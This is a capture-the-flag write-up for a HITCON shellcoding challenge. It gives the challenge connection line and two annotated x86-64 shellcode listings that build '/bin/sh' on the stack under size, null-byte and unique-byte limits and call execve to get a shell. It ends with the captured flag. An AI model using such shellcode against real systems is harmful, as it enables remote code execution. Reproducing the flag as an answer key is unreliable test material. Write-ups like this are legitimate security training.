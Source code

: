 

# Description:

 Are you good at shellcoding? Warm up!

 nc 52.69.40.204 8361
  
 # Write-up
 
 This was a straightforward challenge that we THOUGHT might need a one-gadget, but ultimately it didn't.
 We got a binary that will run a shellcode with the following restrictions:
 * Up to 24 bytes
 * No null bytes
 * Every byte in the shellcode can appear only once.
 
 Most of the registers are zeroed out before our shellcode runs, and except for rsp, all the relevant ones. 
 
 
 I tried to craft a shellcode which will run execve("/bin/sh", 0, 0)
 So we need rdi = &("/bin/sh") , rsi = 0, rdx = 0 and rax = 59 (0x3b), before using syscall.
 
The challenge is to get "/bin/sh" in the stack, as it contains a null byte and two '/'
Basically we need push : 0x0068732f6e69622f to the stack
One way to do it using the right shifted number, shifting left and adding 1 :
```
0:  48 bb 17 b1 34 b7 97 39 34 00    movabs rbx,0x343997b734b117
a:  48 d1 e3                         shl    rbx,1
d:  48 ff c3                         inc    rbx
10: 53                               push   rbx
11: 54                               push   rsp
12: 5f                               pop    rdi
13: b0 3b                            mov    al,0x3b
15: 0f 05                            syscall
```
That's 23 bytes, but with two collisions.
We obviously can't shift left and inc (or add), but the string's two's complement can be decoded in one opcode.
Unfortunately, this also have the byte 48.
So now, one collision left, which can be solved with one of the the numbered registers:

```
0:  49 b9 d1 9d 96 91 d0 8c 97 ff    movabs r9,0xff978cd091969dd1
a:  4c 89 cb                         mov    rbx,r9
d:  48 f7 db                         neg    rbx
10: 53                               push   rbx
11: 54                               push   rsp
12: 5f                               pop    rdi
13: b0 3b                            mov    al,0x3b
15: 0f 05                            syscall
```


This shellcode is 23 bytes long without repitition, with every byte of it unique.
We got a shell on the server and could print the flag:
hitcon{sh3llc0d1n9_1s_4_b4by_ch4ll3n93_4u}
